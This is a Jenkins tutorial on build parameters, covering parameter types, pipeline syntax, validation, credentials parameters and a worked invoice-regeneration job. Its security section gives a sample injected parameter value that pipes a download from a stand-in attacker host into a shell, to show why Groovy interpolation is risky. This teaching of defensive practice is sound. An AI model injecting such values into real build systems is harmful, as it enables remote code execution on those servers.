


# Build Parameters

## Introduction

A **build parameter** is an input that someone (or something) provides when starting a build. With parameters, one job can deploy to `staging` or `production`, build any Git tag, or turn a dry-run mode on and off, instead of you copying the job five times with one value changed.

Parameters turn a job into something like a vending machine: the machine (the job) stays the same, and the buttons you press (the parameters) decide what comes out. A good vending machine only offers buttons for products it actually has. A good parameterized job likewise only offers the choices that make sense, with safe defaults.

On a parameterized job, **Build Now** becomes **Build with Parameters**, and Jenkins shows a form before starting the build:



Parameter values are saved with each build, so you can later see exactly which inputs a build used, and **Rebuild**-style actions can run it again with the same values.

## Built-in Parameter Types

Jenkins core and the default plugins provide these types:

| Type | Declarative syntax | Value in the build | Good for |
| --- | --- | --- | --- |
| String | `string(name:, defaultValue:, description:)` | a single-line string | versions, branch or tag names |
| Text | `text(name:, defaultValue:, description:)` | a multi-line string | release notes, lists of hosts |
| Boolean | `booleanParam(name:, defaultValue:, description:)` | `true` or `false` | dry-run flags, "skip tests" |
| Choice | `choice(name:, choices:, description:)` | one of a fixed list; the first is the default | target environment, region |
| Password | `password(name:, defaultValue:, description:)` | a masked string | rarely a good idea, see below |
| Credentials | `credentials(name:, credentialType:, defaultValue:, required:, description:)` | the ID of a stored credential | choosing which deploy key to use |
| File | Freestyle: **File Parameter**; Pipeline: needs the File Parameters plugin | an uploaded file | uploading a config or data file |
| Run | Freestyle: **Run Parameter** | a specific build of another job | promoting a chosen build |

Plugins add more. The most popular is **Active Choices** (`uno-choice`), which adds dynamic, cascading drop-downs whose options are computed by a Groovy script. It is powerful but adds a Groovy script that needs security approval and maintenance, so reach for it only when a static `choice` is truly not enough.

## Parameters in a Freestyle Job

In a Freestyle job, tick **This project is parameterized** in the **General** section and click **Add Parameter** for each one. Parameters become **environment variables** inside build steps:

```bash
#!/bin/bash
set -euo pipefail
echo "Deploying version ${VERSION} to ${TARGET_ENV}"
if [ "${DRY_RUN}" = "true" ]; then
  echo "Dry run: not changing anything"
  exit 0
fi
./deploy.sh "${TARGET_ENV}" "${VERSION}"
```

Example output with `VERSION=1.4.2`, `TARGET_ENV=staging`, `DRY_RUN=true`:

```text
Deploying version 1.4.2 to staging
Dry run: not changing anything
Finished: SUCCESS
```

## Parameters in a Declarative Pipeline

In a Pipeline, declare parameters in the `parameters` directive and read them through the `params` object:

```groovy
pipeline {
    agent any

    parameters {
        string(name: 'VERSION', defaultValue: '1.0.0', description: 'Version to deploy, e.g. 1.4.2')
        choice(name: 'TARGET_ENV', choices: ['dev', 'staging', 'production'], description: 'Where to deploy')
        booleanParam(name: 'DRY_RUN', defaultValue: true, description: 'Only print what would change')
        text(name: 'RELEASE_NOTES', defaultValue: '', description: 'Optional notes, one per line')
    }

    stages {
        stage('Show inputs') {
            steps {
                echo "Version:  ${params.VERSION}"
                echo "Env:      ${params.TARGET_ENV}"
                echo "Dry run:  ${params.DRY_RUN}"
            }
        }
        stage('Deploy') {
            when {
                expression { return !params.DRY_RUN }
            }
            steps {
                // Read values from the environment inside the shell, not via Groovy interpolation
                sh './deploy.sh "$TARGET_ENV" "$VERSION"'
            }
        }
    }
}
```

Example output with the defaults:

```text
[Pipeline] echo
Version:  1.0.0
[Pipeline] echo
Env:      dev
[Pipeline] echo
Dry run:  true
[Pipeline] stage
[Pipeline] { (Deploy)
Stage "Deploy" skipped due to when conditional
Finished: SUCCESS
```

A few details worth knowing:

- `params.DRY_RUN` is a real Boolean, so `!params.DRY_RUN` works. In the shell, every value is a string, so compare with `"true"`.
- Parameters are also exported as environment variables with the same name (`$VERSION`, `$TARGET_ENV`), which is what the `sh` step above relies on.
- `params` is read-only. If you need a derived value, put it in a new environment variable (see [Environment Variables](../3-jenkins-pipeline-basics/6-jenkins-environment-variables.mdx)).

### The first-run problem

The `parameters` directive is applied to the job **when the Pipeline runs**. A brand-new Pipeline job therefore shows **Build Now**, not **Build with Parameters**, until its first build has completed. That first build runs without a form.



Make sure the first run is harmless: choose safe defaults (a dry run, the `dev` environment), and write code that tolerates a missing value, for example `params.TARGET_ENV ?: 'dev'`. The same delay applies when you add, rename or remove a parameter: the form updates after the next run. In a Multibranch Pipeline, each branch job learns its parameters separately on its first build.

### Order and defaults matter

- The first entry of a `choice` list is the default. Put the **safest** option first (`dev`, not `production`).
- Builds started by a timer, webhook or upstream trigger get the **default values**, because nobody fills in the form. A cron-triggered job whose default is `production` will deploy to production every night.

## Security: Parameters Are User Input

Anyone with **Build** permission on a job can put any text into a string parameter. Treat parameter values exactly like untrusted input in a web form.

### Avoid Groovy string interpolation in shell steps

Compare these two lines:

```groovy
// Dangerous: Groovy builds the command string before the shell sees it
sh "./deploy.sh ${params.TARGET_ENV} ${params.VERSION}"

// Safer: the shell reads the values from environment variables
sh './deploy.sh "$TARGET_ENV" "$VERSION"'
```

With double quotes, a `VERSION` value of `1.0; curl https://evil.example | sh` becomes part of the shell command. With single quotes, Groovy passes the literal text `"$VERSION"` to the shell, which expands it as a single quoted argument, so the semicolon is just a character in a string. The Jenkins documentation calls this out as a [string interpolation](https://www.jenkins.io/doc/book/pipeline/jenkinsfile/#string-interpolation) risk.

### Validate early

Free-text parameters should be checked before anything uses them:

```groovy
pipeline {
    agent any
    parameters {
        string(name: 'VERSION', defaultValue: '0.0.0', description: 'Semantic version, e.g. 1.4.2')
    }
    stages {
        stage('Validate') {
            steps {
                script {
                    if (!(params.VERSION ==~ /\d+\.\d+\.\d+/)) {
                        error "VERSION '${params.VERSION}' is not a valid semantic version"
                    }
                }
            }
        }
        stage('Build') {
            steps {
                echo "Building ${params.VERSION}"
            }
        }
    }
}
```

Example output with `VERSION=1.4`:

```text
[Pipeline] error
ERROR: VERSION '1.4' is not a valid semantic version
Finished: FAILURE
```

Even better, avoid free text where possible: a `choice` list cannot be abused.

### Do not pass secrets as password parameters

A **password** parameter is masked in the form, but the value is still something a user types in, it can end up in logs if you echo it, and it gets stored with the build. Prefer storing the secret in Jenkins credentials and, if users must choose between several, use a **credentials** parameter that selects a credential by ID:

```groovy
pipeline {
    agent any
    parameters {
        credentials(name: 'DEPLOY_KEY',
                    credentialType: 'com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl',
                    defaultValue: 'staging-deployer',
                    required: true,
                    description: 'Which deploy account to use')
    }
    stages {
        stage('Deploy') {
            steps {
                withCredentials([usernamePassword(credentialsId: params.DEPLOY_KEY,
                                                  usernameVariable: 'DEPLOY_USER',
                                                  passwordVariable: 'DEPLOY_PASS')]) {
                    sh './deploy.sh --user "$DEPLOY_USER"'
                }
            }
        }
    }
}
```

The build only ever records the credential ID, and `withCredentials` masks the secret in the console log. The Snippet Generator lists the exact `credentialType` values for your installed plugins. Credentials are covered in [Credentials Management](../11-jenkins-security/3-jenkins-credentials.mdx).

## Passing Parameters Between Jobs

An upstream Pipeline can start another job and pass values with the `build` step:

```groovy
stage('Deploy to staging') {
    steps {
        script {
            def result = build job: 'deploy-app',
                parameters: [
                    string(name: 'VERSION', value: '1.4.2'),
                    string(name: 'TARGET_ENV', value: 'staging'),
                    booleanParam(name: 'DRY_RUN', value: false)
                ],
                propagate: false
            echo "Downstream result: ${result.result} (build #${result.number})"
        }
    }
}
```

Example output:

```text
Scheduling project: deploy-app
Starting building: deploy-app #57
Build deploy-app #57 completed: SUCCESS
[Pipeline] echo
Downstream result: SUCCESS (build #57)
```

With `propagate: false`, a failing downstream build does not fail this one; you inspect `result.result` yourself. Note that a `choice` parameter receives its value from the caller as a plain `string(...)` here.

From outside Jenkins, use the `buildWithParameters` endpoint with an API token, as shown in [Build Triggers](./1-jenkins-build-triggers.mdx):

```bash
curl -X POST -u "release-bot:$JENKINS_API_TOKEN" \
  "https://jenkins.example.com/job/deploy-app/buildWithParameters" \
  --data VERSION=1.4.2 --data TARGET_ENV=staging --data DRY_RUN=false
```

## Parameters vs Other Ways to Vary a Build

Parameters are not always the right tool. Branch names, for example, are better handled by a Multibranch Pipeline than by a `BRANCH` parameter.

| Need | Better tool | Why |
| --- | --- | --- |
| Build every branch or PR | [Multibranch Pipelines](../5-jenkins-scm-integration/1-jenkins-multibranch-pipelines.mdx) | Automatic jobs per branch, no typing |
| Different values per stage | Environment variables or `when` | Fixed by code, reviewed in Git |
| Pause and ask "deploy to prod?" mid-run | [Manual Input and Approvals](../4-jenkins-pipeline-advanced/2-jenkins-input-and-approvals.mdx) | Asks after tests passed, records who approved |
| Run the same build for many combinations | [Matrix Builds](../4-jenkins-pipeline-advanced/1-jenkins-matrix-builds.mdx) | All combinations in one run |
| Choose a secret | Credentials parameter | Only the ID is stored |

## Real-World Scenario

Your team runs a multi-tenant invoicing SaaS. Support engineers sometimes need to **re-run the invoice generation** for a single customer and month after fixing bad data. Today a developer does it by SSHing into a server, which is slow and unaudited.

### The solution

Create a Pipeline job `regenerate-invoices` with tight, validated parameters:

```groovy
pipeline {
    agent { label 'ops' }

    options {
        disableConcurrentBuilds()
        buildDiscarder(logRotator(numToKeepStr: '200'))
    }

    parameters {
        choice(name: 'REGION', choices: ['eu-west', 'us-east'], description: 'Data region')
        string(name: 'TENANT_ID', defaultValue: '', description: 'Numeric tenant ID')
        string(name: 'MONTH', defaultValue: '', description: 'Billing month, YYYY-MM')
        booleanParam(name: 'DRY_RUN', defaultValue: true, description: 'Preview only')
    }

    stages {
        stage('Validate') {
            steps {
                script {
                    if (!(params.TENANT_ID ==~ /\d{1,9}/)) {
                        error "TENANT_ID must be numeric"
                    }
                    if (!(params.MONTH ==~ /20\d\d-(0[1-9]|1[0-2])/)) {
                        error "MONTH must look like 2026-09"
                    }
                    currentBuild.description = "tenant ${params.TENANT_ID} / ${params.MONTH} / ${params.REGION}" +
                        (params.DRY_RUN ? ' (dry run)' : '')
                }
            }
        }
        stage('Regenerate') {
            steps {
                withCredentials([string(credentialsId: 'invoice-api-token', variable: 'API_TOKEN')]) {
                    sh '''
                        set -eu
                        ./scripts/regenerate.sh \
                          --region "$REGION" --tenant "$TENANT_ID" --month "$MONTH" \
                          $( [ "$DRY_RUN" = "true" ] && echo --dry-run )
                    '''
                }
            }
        }
    }
}
```

Example output for a dry run:

```text
[Pipeline] { (Regenerate)
+ ./scripts/regenerate.sh --region eu-west --tenant 48213 --month 2026-09 --dry-run
Would regenerate 3 invoices for tenant 48213 (2026-09)
Finished: SUCCESS
```

Support engineers get **Build** permission on this one job. Every run records who started it, with which values, and the build description makes the history list readable at a glance.

### Why this approach

- One job serves every tenant and month: no copies.
- Validation plus single-quoted shell commands block injection through free-text fields.
- `DRY_RUN` defaults to `true`, so the first run and any accidental click are safe.
- The secret API token never appears as a parameter.

### When to use it and when not to

Use parameters for **operational inputs a human or system genuinely chooses at run time**: version, environment, tenant, dry-run. Do not use them to replace code review (for example a free-text "extra shell commands" parameter), to pick branches (use multibranch), or for values that never change (hard-code them in the Jenkinsfile). If you find yourself adding a tenth parameter, the job is probably doing too many things.

### Alternatives and trade-offs

| Approach | Pros | Cons | Best for |
| --- | --- | --- | --- |
| Parameterized Jenkins job | Audited, permissioned, simple form | First-run quirk, user input must be validated | Ops tasks, deployments of chosen versions |
| `input` step mid-pipeline | Asks at the right moment, records approver | Holds the build open while waiting | Approval gates |
| Active Choices dynamic parameters | Options computed live (e.g. list of tags) | Script approval, maintenance, slower form | Large or changing option lists |
| ChatOps bot calling the API | Convenient for support staff | Another system to secure | Teams living in chat |
| Separate job per value | No input handling | Duplication, drift | Almost never |

## Common Mistakes

- **Using double-quoted Groovy strings with parameters in `sh`.** It enables shell injection. Use single quotes and environment variables.
- **Making `production` the default.** Timers and webhooks use defaults. Put the safest value first.
- **Expecting new parameters to appear immediately.** They appear after the next run of the Jenkinsfile.
- **Comparing booleans as strings in Groovy, or as booleans in shell.** `params.DRY_RUN` is a Boolean in Groovy, but `$DRY_RUN` is the string `"true"` in the shell.
- **Passing secrets as password or string parameters.** Use credentials and `withCredentials`.
- **Defining parameters both in the UI and in the Jenkinsfile.** The Jenkinsfile's `parameters` directive overwrites the job's parameter definition on each run.

## Summary

- Parameters let one job serve many inputs; values are stored with each build.
- Core types: string, text, boolean, choice, password, credentials, file and run. Plugins like Active Choices add dynamic ones.
- In Pipeline, declare them in `parameters` and read `params.NAME`; they are also exported as environment variables.
- The parameter form appears only after the first run of a Pipeline, and triggered builds use defaults, so choose safe defaults.
- Treat parameters as untrusted input: validate them and avoid Groovy interpolation in shell commands.
- Use credentials parameters, not password parameters, for secrets.

## Exercises

1. Create the Declarative example from this page. Note that the first build has no form. Then run it with `DRY_RUN` unchecked and confirm the Deploy stage runs.
2. Add a `string` parameter and try the value `1.0; echo INJECTED` with a double-quoted and then a single-quoted `sh` step. Compare the console output (do this only on a lab instance).
3. Add a validation stage that only accepts versions like `1.2.3` or `1.2.3-rc.1`.
4. Write a second job that calls the first with the `build` step and prints the downstream result.

Next: [Workspaces](./3-jenkins-workspaces.mdx). To ask for approval in the middle of a run instead of up front, see [Manual Input and Approvals](../4-jenkins-pipeline-advanced/2-jenkins-input-and-approvals.mdx).
